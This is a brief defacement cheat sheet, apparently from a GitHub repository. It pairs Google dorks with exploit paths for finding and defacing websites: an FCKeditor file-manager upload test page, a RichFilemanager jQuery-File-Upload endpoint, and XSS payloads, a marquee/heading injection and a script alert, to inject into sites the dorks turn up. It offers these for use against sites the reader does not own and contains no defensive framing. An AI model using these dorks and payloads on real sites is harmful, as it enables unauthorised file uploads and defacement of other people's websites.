 # deface-page
some deface page 

Dork : 

inurl:"frame=product_detail"

exploit site :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html


xss : cross site scripting

####

Dork :

inurl:"/showcatrows.php?CategoryID="

"><marquee><h1>Your text</h1></mmarque>

Search Site And Add This Xss Dork <script>alert("Xss")</script>

####

Dork : 

intext:dokumenary.net

Exploit : /assets/comp/RichFilemanager/scripts/jQuery-File-Upload/

